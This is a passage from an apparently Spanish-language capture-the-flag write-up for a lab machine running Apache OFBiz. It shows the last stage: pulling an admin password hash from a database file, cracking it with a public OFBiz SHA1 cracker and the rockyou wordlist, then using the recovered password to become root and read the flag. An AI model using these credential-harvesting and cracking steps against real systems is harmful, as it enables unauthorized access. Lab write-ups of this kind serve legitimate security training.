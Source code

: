 Revisando el contenido de cada fichero, veo el hash "$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" en el archivo "c54d0.dat".

```shell
<eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
```

Este parece pertenecer a un admin, así que comienzo a mirar como puedo romperlo. Encuentro una herramienta para romper hashes de OFBiz en el repositorio https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker.

```shell
git clone https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker
```

Ejecuto el script utilizando rockyou como diccionario.

```shell
python3 OFBiz-crack.py --hash-string '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I' --wordlist /usr/share/wordlists/rockyou.txt            

[+] Attempting to crack....
Found Password: monkeybizness
hash: $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
(Attempts: 1478438)
[!] Super, I bet you could log into something with that!

```

La contraseña es "monkeybizness", con ella intento acceder como root.

```shell
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ su root
Password: 
root@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0# 
```

Consigo ser root y ya puedo leer su flag.

```shell
root@bizness:~# cat root.txt 
16********************93
```
